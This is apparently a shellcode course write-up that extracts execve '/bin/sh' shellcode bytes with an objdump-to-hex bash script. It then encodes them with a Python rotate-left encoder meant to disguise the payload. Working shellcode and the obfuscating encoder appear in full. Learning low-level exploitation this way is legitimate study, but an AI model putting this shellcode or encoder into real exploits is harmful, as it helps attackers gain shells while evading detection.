 ![](/assets/images/rotateRight.png)   

## Encoding the Payload
The payload used for this example is the `execve` shellcode; provided in the SLAE course.  

### Grabbing the Payload Shellcode
#### Shellscript for automation
```bash
#!/bin/bash
# Filename: objdump2hex.sh
# Author:   boku
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```
+ To quickly grab the hex from shellcode, I used the method shown in the SLAE course.   
+ To make it easier, I added it to a shellscript.  

#### Using the Script to get the Payload Shellcode
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
+ Perfect. Now we will need to encode this shellcode using our Python Encoder `rotateLeftEncoder.py`.  

### Encoding the Payload with the Encoder

#### Python Encoder
```python
#!/usr/bin/python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62"
shellcode += "\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1"
shellcode += "\xb0\x0b\xcd\x80"
encoded1 = ""
encoded2 = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```